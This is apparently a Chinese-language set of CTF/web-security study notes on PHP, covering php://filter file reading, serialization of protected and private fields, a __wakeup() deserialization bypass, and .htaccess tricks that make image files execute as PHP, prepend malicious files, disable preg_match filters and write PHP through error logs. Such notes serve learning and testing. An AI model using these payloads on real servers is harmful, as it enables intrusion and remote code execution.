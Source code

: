 # PHP积累

## php 三种写法

```
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```

php://filter简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>    | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

## public、protected与private在序列化时的区别

protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上\0*\0的前缀。这里的 \0 表示 ASCII 码为 0 的字符(不可见字符)，而不是 \0 组合。这也许解释了，为什么如果直接在网址上，传递\0*\0username会报错，因为实际上并不是\0，只是用它来代替ASCII值为0的字符。必须用python传值才可以。

```php
<?php
class Name{
    protected $username = 'nonono';
    protected $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
```

```
O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度。其中 \0 字符也是计算长度的。

可以不看：
这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## 3.``__wakeup()``方法绕过

作用：
与``__sleep()``函数相反，``__sleep()``函数，是在序序列化时被自动调用。``__wakeup()``函数，在反序列化时，被自动调用。
绕过：
当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过``__wakeup`` 函数的执行。
上面的代码，序列化后的结果为

```
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

其中name后面的2，代表类中有2个属性，但如果我们把2改成3，就会绕过__wakeup()函数。

```
O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## ``.htaccess``文件利用

- 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
- 增加使用php解析的文件后缀(.jpg)
    
    ```
    application/x-httpd-php .jpg
    ```
- 增加使用php解析的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
- 

- **利用php_value注入php配置**

    - 在所有php前后注入恶意php文件
        
        ```
        php_value auto_prepend_file "<phpFileDir>"
        php_value auto_append_file "<phpFileDir>"
        ```

    - 利用prce参数绕过preg_match
        
        ```
        php_value pcre.backtrack_limit 0
        php_value pcre.jit 0 
        ```

        任意匹配均返回``FALSE``
        
        > https://www.php.net/manual/zh/pcre.configuration.php
  
    - 利用UTF-7编码绕过日志html编码
       
       ```
        php_value zend.multibyte 1
        php_value zend.script_encoding "UTF-7"
       ```
    - 利用inclue_path包含恶意文件

      ```
        php_value include_path "/tmp"
      ``` 
    - 利用``error log``写本地文件 (html编码)

        ```
        php_value error_log /tmp/fl3g.php
        php_value error_reporting 32767
        ``` 